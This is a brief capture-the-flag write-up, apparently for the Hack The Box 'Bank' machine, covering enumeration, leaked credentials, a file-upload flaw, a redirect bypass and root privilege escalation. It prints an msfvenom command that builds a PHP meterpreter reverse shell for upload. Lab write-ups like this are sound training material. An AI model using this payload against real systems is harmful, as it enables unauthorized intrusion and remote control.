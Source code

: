 #### Enumeration
- Open Ports port `port 22, 53,80`
- No information gathered from the DNS Server
- Virtual host is guessed `bank.htb` and added to the `/etc/hosts`
- `balance-transfer` directory enumerated
- One file varies in size and reveals valid creds due to `failed encryption`
- The creds are used to login to the `web-app`
- `File Upload` in support page
- Comment found in page source
```html
I added the file extension .htb to execute as php for debugging purposes only
```

#### Shell Obtain
##### Via Metasploit
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=<your-ip> lport=<listening port> -f raw > shell.htb
```
- Upload the shell.htb in the support page and navigate to /uploads dir to get executed

##### Unintended Way
- In `burp` the support.php contents can be viewed without authentication as it mis-handles redirections


#### Priv Esc
- On running the `emergency` binary, the user is escalated to root group and root shell is obtained
